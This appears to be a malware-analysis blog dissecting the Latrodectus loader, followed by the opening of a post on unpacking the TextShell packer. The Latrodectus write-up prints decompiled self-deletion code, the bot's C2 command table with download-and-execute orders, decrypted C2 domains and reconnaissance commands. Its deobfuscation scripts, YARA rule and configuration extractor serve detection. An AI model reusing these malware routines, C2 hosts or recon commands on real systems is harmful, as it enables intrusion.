

*** string obfusatation
Latrodectus strings are obfuscated using a custom algorithm, each string is stored
under a particular structure which has the following shape:

#+CAPTION: Latrodectus string structure
#+BEGIN_SRC C
  struct latrodectus_string {
    DWORD size;
    WORD seed;
    CHAR[] buff;
  };
#+END_SRC

#+NAME: Obfsucated string structure in memory
#+HEADER: :exports results
#+BEGIN_SRC ditaa :file ./images/latrodectus/obfuscated-string-memory.png :cmdline -S -T -E
/--------------++--------------+----------------------\
|              |               |                      |
| cYEL Key     | cGRE Seed     | cBLU    Blob         |
|              |               |                      |
+--------------+---------------+----------------------+
:   4 bytes    :    2 bytes    : (key XOR seed) bytes |
\=-------------+=--------------+=---------------------/
#+END_SRC

#+CAPTION: Obfuscated string structure
#+RESULTS: Obfsucated string structure in memory

The size of the obfsucated data is the result of a =XOR= operation between the key (4 bytes)
and the seed (2 bytes). The malware deobfsucates the string with the function below:
#+CAPTION: Decompiled function used to deobfuscate Latrodectus string


Here is the Python script to deobfuscate strings:
#+CAPTION: Python function to deobfuscate Latrodectus strings
#+BEGIN_SRC python :results output :exports both
import struct

def deobfuscate_string(buff: bytes) -> str:
    key, seed = struct.unpack("<ih", buff[:6])
    size = (key ^ seed) & 0xFF
    ciphertext = buff[6 : 6 + size]
    cleartext = bytearray(size)

    for index in range(size):
        key += 1
        cleartext[index] = (key ^ ciphertext[index]) & 0xFF

    return cleartext.decode("utf-16")

buff = bytes.fromhex(
    "2082130E3C826222562456265328462A462C722E5A3041325734543643385C3A3B3C0000"
)

print(deobfuscate_string(buff))

#+END_SRC

#+RESULTS:
: Custom_update

#+begin_details
#+begin_summary
Here is the IDA script to debofsucate the strings:

/Before running it, I needed to decompiled the all program =File>Produce>C file=/
#+end_summary
#+CAPTION: IDA Script for string deobfuscation
#+BEGIN_SRC python
import idautils
import struct

def deobufscate_string(buff: bytes) -> str:
    key, seed = struct.unpack("<ih", buff[:6])
    size = (key ^ seed) & 0xFF
    ciphertext = buff[6 : 6 + size]
    cleartext = bytearray(size)

    for index in range(size):
        key += 1
        cleartext[index] = (key ^ ciphertext[index]) & 0xFF

    return cleartext

def get_string_length(address):
    """
    Get the length of the string at the given address.

    :param address: The address of the string.
    :return: The length of the string.
    """
    string = idc.get_strlit_contents(address)
    if string:
        return len(string)
    return 0

def get_data_length(address: int) -> int:
    """
    Get the length of the data at the given address by analyzing the type.

    :param address: The address of the data.
    :return: The length of the data.
    """
    flags = idc.get_full_flags(address)
    if idc.is_strlit(flags):
        # It's a string
        return get_string_length(address)
    elif idc.is_data(flags):
        # It's some kind of data (e.g., array or structure)
        size = idc.get_item_size(address)
        return size
    return 0

deobfuscution_func_addr = 0x18000AE78 # CHANGE-ME
for ref in idautils.XrefsTo(deobfuscution_func_addr):
    for ea in idautils.Heads(ref.frm - 10, ref.frm):
        insn = idaapi.insn_t()
        length = idaapi.decode_insn(insn, ea)
        mnemonic = print_insn_mnem(ea)
        if mnemonic == "lea":
            operand_1 = print_operand(ea, 0)
            operand_2 = print_operand(ea, 1)
            addr = get_operand_value(ea, 1)
            size = get_data_length(addr)
            data = idc.get_bytes(addr, size)
            cleartext = ""
            try:
                cleartext = deobufscate_string(data)
                if cleartext.endswith(b"\x00" * 2): # wide detection...
                    cleartext = cleartext.decode("utf-16")
                else:
                    cleartext = cleartext.decode()
                print(f"set comment at 0x{ea:x} : `{cleartext}`")
                idc.set_cmt(ea, cleartext, 1)
            except Exception as er:
                print(er)
                if cleartext:
                    # idc.set_cmt(ref.frm, cleartext, 0)
                    print(f"need manual comment 0x{addr:x} {cleartext}")
                else:
                    print(f"error for : 0x{addr:x}")
#+END_SRC
#+end_details

Additionally, the malware performs a series of **environment detection checks**,
such as counting the running processes. Based on the **OS version**, it determines a
threshold range within which the **number of running processes** is considered acceptable.
It also verify if the flag =IsDebugged= in the Process Environment Block is set in cased a debugger
would be attach to the process.

It also verifies that the **MAC addresses** of the various interfaces have a valid size.

Next, it computes a bot identifier from the volume serial number and then performs a series of
multiplications with a hardcoded constant =0x19660D=. (/which has
the same value of the RNG multiply of LCRNG algorithm, because why not.../).

#+CAPTION: botid string formating


A campaign or group identifier is also embedded in the obfuscated strings, this
value (deobfuscated) is hashed with FNV-1 algorithm. The current sample respond
to the group ID *Littlehw*

*** Persistence
To persiste on the infected host, Latrodectus uses a scheduled task using COM base object.

> [[https://learn.microsoft.com/en-us/windows/win32/taskschd/logon-trigger-example--c---][msdn logon trigger c++ example]]

The task is triggered on Logon event.
#+CAPTION: Function that create the scheduled task using COM object


Here is a way to build the CLSID from the hex data structure exported from the sample
#+CAPTION: Python function to format from hex representation the CLSID
#+BEGIN_SRC python :results output :exports both
import struct

def bytes_to_clsid(byte_data):
    if len(byte_data) != 16:
        raise ValueError("A CLSID must be 16 bytes long")

    # Unpack bytes according to CLSID structure
    part1, part2, part3, part4_and_part5 = struct.unpack('<IHH8s', byte_data[:16])

    # Split part4_and_part5 into two parts
    part4 = part4_and_part5[:2]
    part5 = part4_and_part5[2:8]
    part6 = byte_data[8:16]

    # Format the CLSID
    clsid = f'{{{part1:08X}-{part2:04X}-{part3:04X}-{part4.hex().upper()}-{part5.hex().upper()}{part6.hex().upper()}}}'
    print(clsid)

# Example usage
byte_data = bytes.fromhex("C7A4AB2FA94D1340969720CC3FD40F85")
bytes_to_clsid(byte_data)
#+END_SRC

#+RESULTS:
: {2FABA4C7-4DA9-4013-9697-20CC3FD40F85969720CC3FD40F85}

This CLSID correspond to the **TaskScheduler**, I made a script that gather various CLISD retrieved
from [[https://github.com/wine-mirror/wine/tree/master][wine]] project. More information on how to extract this CLSID in this [[file:../../notes/python/#clsid-identifier][note]] and the full script
is available [[https://gitlab.com/lbpierre/lbpierre.gitlab.io/-/blob/master/resources/scripts/clsid-identifier.py?ref_type=heads][here]].

*** Defense evasion
To hid itself, Latrodectus uses Alternate Data Stream as explain in [[https://blog.reveng.ai/latrodectus-distribution-via-brc4/][reveng.ai blogpost]]
#+begin_sidenote
The code was borrowed from [[https://github.com/byt3bl33d3r/OffensiveNim/blob/c056dc876870ac385159e2dc2a234984807e3236/src/self_delete_bin.nim#L16][byt3bl33d3r/OffensiveNim github repository]].
#+end_sidenote

#+begin_details
#+begin_summary
reveng.ai citation
#+end_summary
Latrodectus makes use of a trick to delete itself while the process is still running,
making use of an **alternative data stream** (ADS) and a specific chain of API calls.
This technique is used by other malware such as **RaspberryRobin**, **HelloXD Ransomware**,
**DarkPower Ransomware**.
#+end_details

The C code used for the self delete is the following one:
#+CAPTION: Self delete using Alternate Data Stream
#+BEGIN_SRC cpp
__int64 self_delete_withADS()
{
  char v1[8]; // [rsp+40h] [rbp-D8h] BYREF
  HANDLE FileW; // [rsp+48h] [rbp-D0h]
  int *buff; // [rsp+50h] [rbp-C8h]
  unsigned __int64 v4; // [rsp+58h] [rbp-C0h]
  unsigned __int64 buff_size; // [rsp+60h] [rbp-B8h]
  int *v6; // [rsp+68h] [rbp-B0h]
  __int16 *v7; // [rsp+70h] [rbp-A8h]
  WCHAR *__attribute__((__org_arrdim(0,0))) v8; // [rsp+78h] [rbp-A0h]
  __int16 a2[76]; // [rsp+80h] [rbp-98h] BYREF

  if ( !self_filepath )
    return 0xFFFFFFFFi64;
  FileW = CreateFileW(self_filepath, DELETE, 0, 0i64, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0i64);
  if ( FileW == INVALID_HANDLE_VALUE )
    return 0xFFFFFFFFi64;
  deobfuscate_string(&byte_18000FA18, a2);      // :wtfbbq\x00
  v7 = a2;
  v8 = a2;
  v4 = 2i64 * whar::get_length(a2);
  buff_size = v4 + 24;
  buff = allocate_memory_rwx(v4 + 24);
  if ( !buff )
    return 0xFFFFFFFFi64;
  zero_mem_0(buff, buff_size);
  v6 = buff;
  buff[4] = v4;
  qmemcpy(v6 + 5, v8, v4);
  if ( SetFileInformationByHandle(FileW, FileRenameInfo, v6, buff_size) )
  {
    nt_free_mem(buff);
    CloseHandle(FileW);
    FileW = CreateFileW(self_filepath, DELETE, 0, 0i64, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0i64);
    if ( FileW == INVALID_HANDLE_VALUE )
    {
      return 0xFFFFFFFFi64;
    }
    else
    {
      v1[0] = 0;
      zero_mem_0(v1, 1ui64);
      v1[0] = 1;
      if ( SetFileInformationByHandle(FileW, FileDispositionInfo, v1, 1u) )
      {
        CloseHandle(FileW);
        return 0i64;
      }
      else
      {
        return 0xFFFFFFFFi64;
      }
    }
  }
  else
  {
    nt_free_mem(buff);
    return 0xFFFFFFFFi64;
  }
}
#+END_SRC

*** Command and Control Communication

The malware uses this user-agent which is unique to this version (/or campaign/) of Latrodectus.
> [[https://www.virustotal.com/gui/search/behavior_network%253A%2522Mozilla%252F4.0%2520(compatible%253B%2520MSIE%25207.0%253B%2520Windows%2520NT%25205.1%253B%2520Tob%25201.1)%2522][behavior_network:"Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tob 1.1)"]]

The malware communicate over HTTPS where the POST data are **base64** encoded and its content is **RC4
encrypted**. The RC4 key is stored obfuscated using the same obfuscation as other strings. In this
sample the key is =12345=...

The bot understands 4 orders: =URLS=, =CLEARURL=, =COMMAND= and =ERROR=. The list of command
is provided in the [[commandID]]. The =URLS= updated the list of C2 URLs and =CLEARURL= cleaned the C2 URLs
table.

#+NAME: commandID
| Command ID | Description                                    |
|------------+------------------------------------------------|
|          2 | Get desktop files                              |
|          3 | List running processes                         |
|          4 | fingerprint host & domain                      |
|         12 | Download and execute EXE in AppData            |
|         13 | Download and execute DLL in AppData            |
|         14 | Download and execute Shellcode                 |
|         15 | Download and update EXE (auto-update)          |
|         17 | Exit process                                   |
|         18 | Run DLL in AppData (=init -zzzz= files/bp.dat) |
|         19 | Increase beacon interval                       |
|         20 | Reset counter (number of sended http request)  |
#+CAPTION: Command ID and description

Other analysis made on this threat highlight a command ID **21** related to a stealer module,
no reference to this ID have been found in this sample. My primary hypothesis is that stealer
capability is optional ¯\_(ツ)_/¯. 

The bot beacon with its C2 with POST request where the body contains the following fields:
- =counter=: number of http request send;
- =type=: and id (1 to 5) defining which beacon it is (sysinfo, process list, desktop files);
- =guid=: bot identifier;
- =os=: major version;
- =arch=: fixed to 1 for x64 architecture (otherwise the bot exit if it is another architecture);
- =username=: username of the running process owner;
- =group=: FNV-1 hash of the group (=Littlehw=);
- =ver=: bot version;
- =up=: a constante;
- =direction=: C2 related information;

=counter=%d&type=%d&guid=%s&os=%d&arch=%d&username=%s&group=%lu&ver=%d.%d&up=%d&direction=%s=.

To facilitate the decryption of the communication, here is a script to help:

#+CAPTION: Packet decryption routine
#+BEGIN_SRC python :results output :exports output
import base64

def rc4(data: str, key: str) -> str:
    """code from OALabs """
    x = 0
    box = list(range(256))
    for i in range(256):
        x = (x + box[i] + key[i % len(key)]) % 256
        box[i], box[x] = box[x], box[i]
    x = 0
    y = 0
    out = []
    for c in data:
        x = (x + 1) % 256
        y = (y + box[x]) % 256
        box[x], box[y] = box[y], box[x]
        out.append(c ^ box[(box[x] + box[y]) % 256])
    return bytes(out)

buff = b"E3l9I35LXiOWKYHilDWuJoUOTU3NOyjNGnp3muFUOrabzvFw6FpoOQqdBZmsUV5E7FzXWHKgBafR6PcPckBsIB2vIhb3CZ/QHPoEO1hc0A++PpLQjpRWJkK3EFDxH/R5RYjhInO8hc0jTljC91GMVstjkxgQnuZLGBW6AV/gz4VrNMWUxFUtP4fdg/HKCREbRm+gIHkH/7Jc9Q=="
key = b"12345"
print(rc4(base64.b64decode(buff), key).decode())
#+END_SRC

#+RESULTS:
: CLEARURL
: URLS|0|https://popfealt.one/live/
: URLS|1|https://ginzbargatey.tech/live/
: URLS|2|https://minndarespo.icu/live/
: COMMAND|4|front://sysinfo.bin
: 

/NB: the command: =4=, where it contains =front://= the bot replace the =front://= by the value/
/of the actual C2 URL./

*** Host & Domain recon
One of the capacity of the bot is to execute in a dedicated thread a serie of commands
to fingerprint the network topology of the infected host and on the connected domain:
- =ipconfig /all=
- =systeminfo=
- =nltest /domain_trusts=
- =net view /all /domain=
- =nltest /domain_trusts /all_trusts=
- =net view /all=
- =net group "Domain Admins" /domain=
- =/Node:localhost /Namespace:\root\SecurityCenter2 Path AntiVirusProduct Get * /Format:List=
- =net config workstation=
- =wmic.exe /node:localhost /names=
- =whoami /groups=

/NB: This method is executed when the bot received the =COMMAND= order with the ID =0x4=, c.f: [[commandID]]./

*** YARA
#+BEGIN_SRC yaml
import "pe"

rule latrodectus_exports : TESTING {
    meta:
        version = "1.0"
        malware = "Latrodectus"
        author = "Sekoia.io"
        description = "detection based on the DLL exports, this is specific to the BR4 campaign"
        creation_date = "2024-07-03"
        classification = "TLP:GREEN"

    condition:
        (pe.exports("stow") or pe.exports("homq") or pe.exports("scub")) and pe.number_of_exports >= 3 and uint16(0) == 0x5a4d
}
#+END_SRC

*** Artefacts hunting
Host artefacts:
- =%appdata%\Custom_update= directory with the files:
  - =update_data.dat= (obfsucated C2 URLs);
  - =Update_<8 random characters>.dll=.
- Mutex =runnung=;
- Scheduled task named =Updater=.

Network artefacts:
- HTTP User-Agent: =Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tob 1.1)=;
- HTTP POST request on =/live/= endpoints.

*** Latrodectus Update
Previous version samples:
- [[https://bazaar.abuse.ch/sample/9fad77b6c9968ccf160a20fee17c3ea0d944e91eda9a3ea937027618e2f9e54e/][9fad77b6c9968ccf160a20fee17c3ea0d944e91eda9a3ea937027618e2f9e54e]]
- [[https://bazaar.abuse.ch/sample/9e7fdc17150409d594eeed12705788fbc74b5c7f482a64d121395df781820f46/][9e7fdc17150409d594eeed12705788fbc74b5c7f482a64d121395df781820f46]]
- [[https://bazaar.abuse.ch/sample/53b0d542af077646bae5740f0b9423be9fb3c32e04623823e19f464c7290242f/][53b0d542af077646bae5740f0b9423be9fb3c32e04623823e19f464c7290242f]]

**** Strings obfuscation
In the previous version of the malware, the string deobfuscation function used a more
sophisticated aglorithm **PRNG2** with have been removed in the current one...

The encoded strings always starts with =0xf5= byte due to the PRNG2 implementation:
#+CAPTION:  Example of obfsucated string in previous version


#+CAPTION: Previous version of the deobfuscation function
#+BEGIN_SRC C
BYTE *__fastcall decode_string(WORD *obfuscated_data, BYTE *buff_dest)
{
  BYTE v3; // [rsp+20h] [rbp-18h]
  unsigned __int16 i; // [rsp+24h] [rbp-14h]
  unsigned __int16 length; // [rsp+28h] [rbp-10h]
  int seed; // [rsp+2Ch] [rbp-Ch]
  BYTE *ptr_buff_obfuscated; // [rsp+40h] [rbp+8h]

  seed = *(_DWORD *)obfuscated_data;
  length = obfuscated_data[2] ^ *obfuscated_data;
  ptr_buff_obfuscated = (BYTE *)(obfuscated_data + 3);
  for ( i = 0; i < (int)length; ++i )
  {
    v3 = ptr_buff_obfuscated[i];
    seed = prng2(seed);
    buff_dest[i] = seed ^ v3;
  }
  return buff_dest;
}
#+END_SRC

And the PRGN2 decompiled function was:
#+CAPTION: PRGN2 function oldest Latrodectus version
#+BEGIN_SRC C
__int64 __fastcall prng2(int seed)
{
  unsigned __int64 v1; // kr00_8
  unsigned int v3; // [rsp+8h] [rbp+8h]

  v1 = (unsigned __int64)(((((seed + 0x2E59) << 31) | ((unsigned int)(seed + 0x2E59) >> 1)) << 31) | ((((seed + 0x2E59) << 31) | ((unsigned int)(seed + 0x2E59) >> 1)) >> 1)) << 30;
  v3 = ((((unsigned int)v1 | HIDWORD(v1)) ^ 0x151D) >> 0x1E) | (4 * ((v1 | HIDWORD(v1)) ^ 0x151D));
  return (v3 >> 31) | (2 * v3);
}
#+END_SRC

The medium article from /walmartglobaltech/ [[https://medium.com/walmartglobaltech/icedid-gets-loaded-af073b7b6d39][IcedID gets Loaded]] provided a Python
implementation of the PRGN2 algorithm:

#+CAPTION: Python implementation of Latrodectus PRGN2
#+BEGIN_SRC python :results output :exports output
import struct
import binascii

def mask(a):
    return a & 0xFFFFFFFF

def prng2(seed):
    temp = mask((seed + 0x2E59))
    temp2 = temp >> 1
    temp = mask(temp << 0x1F)
    temp |= temp2
    temp2 = temp >> 1
    temp = mask(temp << 0x1F)
    temp |= temp2
    temp2 = temp >> 2
    temp = mask(temp << 0x1E)
    temp |= temp2
    temp ^= 0x6387
    temp ^= 0x769A
    temp2 = mask(temp << 2)
    temp >>= 0x1E
    temp |= temp2
    temp2 = mask(temp << 1)
    temp >>= 0x1F
    temp |= temp2
    return temp

def decode(s):
    (seed, l) = struct.unpack_from("<IH", s)
    l = (l ^ seed) & 0xFFFF
    if l > len(s):
        return b""
    temp = bytearray(s[6 : 6 + l])
    for i in range(l):
        seed = prng2(seed)
        temp[i] = (temp[i] ^ seed) & 0xFF
    return temp

string = binascii.unhexlify("F5788452F8781A6EEE4623114A578F9A44B3E10000")
print(decode(string).decode())
#+END_SRC

#+RESULTS:
: URLS|%d|%s
: 

The strings obfuscation have been used by Latrodectus in its early version,
however the developper removed the **PRNG2** part and replace it with a
seed incrementation...

**** TTPs
According to [[https://0x0d4y.blog/latrodectus-technical-analysis-of-the-new-icedid/][0x0d4 article]] the infection chain got some update, however the campaign pattern
remain the same:
1. /Stage 0/: A JavaScript Downloader is used to download a MSI from a first infrastructure;
2. /Stage 0/: The JavaScript execute the MSI;
3. /Stage 1/: The MSI uses a custom action to run rundll32.exe to execute the Latrodectus DLL;
4. /Stage 2/: Latrodectus communicates with its own infrastructure;

#+CAPTION: Previous campaign infection chain


The last campaign introduce Brute Ratel usage between the MSI and Latrodectus DLL.y

#+CAPTION: Recent campaign infection chain introducing Brute Ratel


In the May-June update, Latrodectus operators introduced a new stage between stages 1 and 2.
The threat actors use an MSI to execute BruteRatel, which then drops Latrodectus.
The primary hypothesis for the presence of BruteRatel is to detect and evade defenses
before dropping the Latrodectus payload. According to the analysis of the Latrodectus malware,
there is no advanced or effective sandbox, virtual, or analysis environment detection
implemented, hence the use of BruteRatel.

*** Configuration extractor
The targeted configuration in the sample includes:
- C2 URLs
- RC4 key
- Group (probably the affiliate name or campaign name)

All the "configuration" is obfuscated using the same technique as other strings in the malware.
The structure of the obfuscated string consists of a key (first 4 bytes) and
a seed (next 2 bytes), which are the same for all obfuscated strings.

To identify what will be called a =LATRODECTUS_OBFUSCATED_EGG= in the extractor,
we follow these steps:
1. Extract the data from the =.data= section;
2. Split the data as if it were a normal string using =data.split(b"\x00")=;
3. Create a list containing the first 4 bytes of each split string;
4. Use a Python =Counter= from the =collections= standard module to
    identify the starting buffer with the most occurrences;
5. Use the identified EGG to split data (obfsucated string);
6. Extract data from the mathes of the =EGG= that contains the /key/ and the /seed/,
   combining both with a XOR operation give the string size =size = (key ^ seed) & 0xff=;
7. Get the obfsucated data from the above match offset and the size;
8. Debfuscated each string;
9. Match URL using the =http= first character;
10. Base on all analyzed sample, the =group= is always place after the =ERROR= string (the
    C2 command) and the =RC4= key is always after the =/files/= string (used to replace
    some C2 response body).

#+CAPTION: Latrodectus configuration extractor
#+BEGIN_SRC python
import re
import struct
import pefile
import logging

from collections import Counter
from typing import Optional, List, Dict

logging.basicConfig()
logging.getLogger().setLevel(logging.DEBUG)

def parse_pe(pe_path: str) -> bytes:
    """Extract data from the .data section of the PE,
    returns a byte array otherwise raise ValueError"""

    pe: pefile.PE = pefile.PE(pe_path)
    data_section: Optional[pefile.SectionStructure] = None

    for section in pe.sections:
        if section.Name.startswith(b".data"):
            data_section = section

    if not data_section:
        raise ValueError("no .data section found")

    return data_section.get_data()

def identify_latrodectus_egg_obfuscated_string(data: bytes) -> re.Pattern:
    """Identify the pattern at the beggining of the obfuscated strings"""

    # need to identifier the EGG_OBFUSCATED_STRING...
    patterns = []
    for str_data in filter(lambda x: x, data.split(b"\x00")):
        patterns.append(str_data[:4])

    EGG_PATTERN = Counter(patterns).most_common(1)[0][0]  # get the most common pattern

    if not EGG_PATTERN:
        raise ValueError("no begging string pattern found")

    # note the best way to build the RE pattern...
    LATRODECTUS_EGG_STRING = re.compile(EGG_PATTERN + b"(..)")
    logging.debug(f"Found an STRING EGG pattern: 0x{EGG_PATTERN.hex()}")

    return LATRODECTUS_EGG_STRING

def deobfuscate_all_strings(
    data: bytes, LATRODECTUS_EGG_STRING: re.Pattern
) -> List[str]:
    """
    Split data by the LATRODECTUS_EGG_STRING,
    then deobfuscated each one of them and return their
    string value regarding their encoding: utf-8 or utf-16
    """

    strings: List[str] = []

    for match in LATRODECTUS_EGG_STRING.finditer(data):
        start_position = match.start() + 6
        key, seed = struct.unpack("<ih", match.group())
        size = (key ^ seed) & 0xFF

        ciphertext = data[start_position : start_position + size]
        cleartext = bytearray(size)

        for index in range(size):
            key += 1
            cleartext[index] = (key ^ ciphertext[index]) & 0xFF

        if cleartext.endswith(b"\x00" * 2):  # wide string
            strings.append(cleartext.decode("utf-16"))
        else:
            strings.append(cleartext.decode())

    return strings

def extract_configuration_from_cleartexts(strings: List[str]) -> Dict:
    configuration = {"C2": [], "rc4_key": "", "group": ""}

    for index, value in enumerate(strings):
        if value == "ERROR\x00":
            configuration["rc4_key"] = strings[index + 1].replace("\x00", "")
            logging.debug(f"rc4 key is: {configuration['rc4_key']}")
        if value == "/files/\x00":
            configuration["group"] = strings[index + 1].replace("\x00", "")
            logging.debug(f"latrodectus group: {configuration['group']}")
        if value.startswith("http"):
            configuration["C2"].append(value.replace("\x00", ""))
            logging.debug(f"update C2: {configuration['C2']}")

    logging.info(configuration)
    return configuration

def main(path: str) -> Dict:
    """take a PE path and return
    the Latrodectus configuration"""

    data = parse_pe(path)
    EGG_STRING = identify_latrodectus_egg_obfuscated_string(data)
    strings = deobfuscate_all_strings(data, EGG_STRING)
    configuration = extract_configuration_from_cleartexts(strings)
    return configuration

if __name__ == "__main__":
    import sys

    path = sys.argv[1]
    try:
        print(main(path))
    except Exception as err:
        logging.error(f"failed to extract configuration from {path}, error: {err}")

#+END_SRC

*** External references
- https://www.proofpoint.com/us/blog/threat-insight/latrodectus-spider-bytes-ice
- https://blog.reveng.ai/latrodectus-distribution-via-brc4/
- https://www.bitsight.com/blog/latrodectus-are-you-coming-back
- https://cybergeeks.tech/a-detailed-analysis-of-the-stop-djvu-ransomware/ [useful for CLSID]
- https://medium.com/walmartglobaltech/icedid-gets-loaded-af073b7b6d39 [correlation with IcedID]
- https://0x0d4y.blog/latrodectus-technical-analysis-of-the-new-icedid/
- [[https://cyberchef.cti.guru/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)RC4(%7B'option':'UTF8','string':'12345'%7D,'Latin1','Latin1')&input=RTNsOUkzNUxYaU9XS1lIaWxEV3VKb1VPVFUzTk95ak5HbnAzbXVGVU9yYWJ6dkZ3NkZwb09RcWRCWm1zVVY1RTdGelhXSEtnQmFmUjZQY1Bja0JzSUIydkloYjNDWi9RSFBvRU8xaGMwQSsrUHBMUWpwUldKa0szRUZEeEgvUjVSWWpoSW5POGhjMGpUbGpDOTFHTVZzdGpreGdRbnVaTEdCVzZBVi9nejRWck5NV1V4RlV0UDRmZGcvSEtDUkViUm0rZ0lIa0gvN0pjOVE9PSA][cyberchef com Latrodectus]]

** Conclusion
Even after the large LEA operation at the beginning of 2024 (Operation Endgame),
Latrodectus remains a major threat in the cybercrime landscape.
The various updates it has received are a reliable indicator that the threat actors behind
this malware are continuously improving the malware and its techniques.

I hope you enjoy the read :pray:. All feedback is welcome.
* TODO TextShell Automatic Unpacking : Give your =F7= key a vacation 🐚 :@RE:packer:python:
SCHEDULED: <2026-02-18 Wen>
:PROPERTIES:
:EXPORT_FILE_NAME: textshell
:END:

#+begin_description
TextShell is packer used to deliver various cybercrime malware including OysterLoader,
SUPER backdoor. The malware is developped in C and is composed of two stages. The
first one attempts to mimickate legitimate software using graphical API call
and the second one is a shellcode that aimed at decompressing the payload to drop
and thereby executing it.
This article is a saved notes to share rathan than a complite packer drill down.
Some note about the process to unpack it automatically are shared as the final
script to do it!
#+end_description

file:./images/textshell/header_textshell.jpeg]]

Before diving in, here are three previous researches that worth a read before going further:
1. [[https://www.reversinglabs.com/blog/unpacking-pkr_mtsi][ReversingLab - Wrote a detailed drill down of the packer internals]]
2. [[https://www.huntress.com/blog/gootloader-threat-detection-woff2-obfuscation][Huntress - Expose some key features of the packer and its participation in a campaign]]
3. [[https://blog.sekoia.io/oysterloader-unmasked-the-multi-stage-evasion-loader/][Sekoia.io - Highlight some of the packer internal feature in another type of campaign]]

** Context & Overview
If you have been tracking malvertising campaigns over the past year or so, you have probably
run into what is now commonly referred to as the /TextShell/ packer  or ~pkr_mtsi~ in
ReversingLabs nomenclature. The packer was first spotted in the wild around April 2025 and
has been in continuous use since. It shows up in fake software installer campaigns
impersonating tools like PuTTY, WinSCP, or Rufus: the usual SEO-poisoning and malvertising
playbook. On the payload side, depending on the campaign, it has been observed dropping Oyster
(a.k.a. OysterLoader / Broomstick), Vidar infostealer.

The packer itself was covered in depth by [[https://www.reversinglabs.com/blog/unpacking-pkr_mtsi][ReversingLabs]] in January 2026, and the Oyster loader
it delivers was documented by [[https://blog.sekoia.io/oysterloader-unmasked-the-multi-stage-evasion-loader/][Sekoia.io]] in February 2026. The [[https://www.huntress.com/blog/gootloader-threat-detection-woff2-obfuscation][Huntress report on Gootloader]]
also has a relevant section on the OysterLoader distribution chain.
This post is not a re-analysis of those findings. If you want the full static analysis of the packer internals 
API hammering, PEB traversal, hash-based API resolution, the broken ~NtProtectVirtualMemory~
calls  those articles cover it well. Read them first.

What this post is about is the /automation side/: given a TextShell packed binary, how do you
extract the final payload programmatically without touching a debugger? The answer is a Python
script that chains together [[https://github.com/unicorn-engine/unicorn][Unicorn]], [[https://github.com/qilingframework/qiling][Qiling]], and [[https://github.com/capstone-engine/capstone][Capstone]] to drive the unpacking end-to-end.

